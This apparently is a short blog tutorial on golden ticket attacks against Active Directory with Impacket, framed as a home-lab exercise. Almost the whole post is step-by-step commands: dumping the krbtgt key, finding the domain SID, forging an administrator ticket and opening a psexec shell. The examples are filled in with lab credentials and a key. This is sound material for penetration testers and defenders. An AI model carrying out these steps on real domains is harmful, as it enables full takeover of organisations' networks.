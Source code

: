 ```yaml
---
layout: post
title: Golden Ticket Attacks using Impacket
---
```


After playing about with Mimikatz for a bit and looking at a few options to bypass the anti virus, I decided a different tool might make more sense.
Impacket contains a number of tools that can be used to obtain the krbtg hash and the domain SID, create a golden ticket offline and then obtain a shell using the Kerberos ticket.

> [!NOTE]
> Credentials are needed to run these commands on the domain controller. These can be obtained by cracking NTLM hashes  or running a MITM6 attack.

<br>

<h4> Use secretsdump.py to obtain the aes256 key for the krbtgt account </h4>

``` secretsdump.py domain/user:password dc-ip ``` <br>

``` secretsdump.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250 ``` <br>

<br>
<h4> Use lookupsid.py to find the domain SID </h4>

``` Lookupsid.py <domain>/<user>:<password> <dc-ip> ``` <br>

``` Lookupsid.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250 ``` <br>

<br>
<h4> Use ticketer.py to create TGT </h4>

``` ticketer.py -aes <aes-256> -domain-sid <SID> -domain <domain> -user-id <500> username ``` <br>

``` ticketer.py -aes 5735dd8eaf424d966ef640d4056e2eb90310345d58b074103444483bdf736861 -domain-sid S-1-5-21-536825828-3248286720-2276939788 -domain home.local -user-id 500 administrator ``` <br>

<br>
<h4> Export KRB5CCNAME to created ticket location </h4>

``` export KRB5CCNAME=/home/kali/Documents/administrator.ccache ``` <br>

<br>
<h4> Use psexec to obtain a shell on any machine in the domain </h4>

``` psexec.py <domain>/<user>@<hostname>.<fqdn> -no-pass -k ``` <br>

``` psexec.py home.local/administrator@TargetPC.home.local -no-pass -k ``` <br>

